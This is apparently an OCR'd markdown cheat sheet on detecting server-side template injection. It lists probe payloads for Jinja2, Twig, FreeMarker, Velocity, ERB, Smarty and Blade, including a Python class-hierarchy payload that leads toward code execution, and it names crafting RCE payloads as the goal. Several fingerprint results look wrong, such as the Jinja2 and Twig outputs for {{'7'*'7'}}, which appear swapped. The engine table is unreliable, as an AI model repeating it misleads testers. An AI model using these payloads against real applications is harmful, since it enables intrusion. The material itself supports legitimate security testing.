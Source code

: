 ## Detecting and Exploiting SSTI

The key to detecting and exploiting SSTI is to:
**Identify the injection point**: Where user input is reflected in the rendered page.  
**Test for template syntax**: Use generic and then engine-specific payloads.  
**Identify the template engine**: Based on the response to test payloads.  
**Craft RCE payloads**: Using the specific syntax and available functions/objects of the identified engine.  

### Generic Detection Payloads

Start by trying to break out of the template context and perform a simple mathematical operation. A successful evaluation (e.g., `49` appearing) confirms SSTI.

#### Payloads
*   `{{7*7}}`
*   `${7*7}`
*   `#{7*7}`
*   `<%= 7*7 %>`
*   `{{'7'*'7'}}` (Checks for string concatenation vs. multiplication)
*   `{{ 1+1 }}`
*   `{{ 1*'1' }}` (Differentiates between engines)
*   `{{"".__class__.__bases__[0].__subclasses__()}}` (Python template engines - attempts to get class hierarchy)

### Identifying the Template Engine

Once a generic payload confirms injection, refine it to pinpoint the specific template engine. Different engines will interpret syntax differently.

#### Jinja2 / Twig / Nunjucks (Python/PHP/Node.js - similar syntax)
*   `{{7*7}}` -> `49`
*   `{{'7'*'7'}}` -> `49` (Jinja2), `'7777777'` (Twig), `7777777` (Nunjucks)
*   `{{ [1,2,3]|join(',') }}` -> `1,2,3`

#### FreeMarker (Java)
*   `${7*7}` -> `49`
*   `${"7"*"7"}` -> `49`
*   `#{7*7}` -> `49`  

#### Velocity (Java)
*   `#set($foo=7*7)$foo` -> `49`
*   `${7*7}` -> `49`
#### ERB (Ruby)
*   `<%= 7*7 %>` -> `49`   

#### Smarty (PHP)
*   `{7*7}` -> `49`
#### Blade (PHP - Laravel)
*   `{{7*7}}` -> `49` (Often protected against simple RCE)  
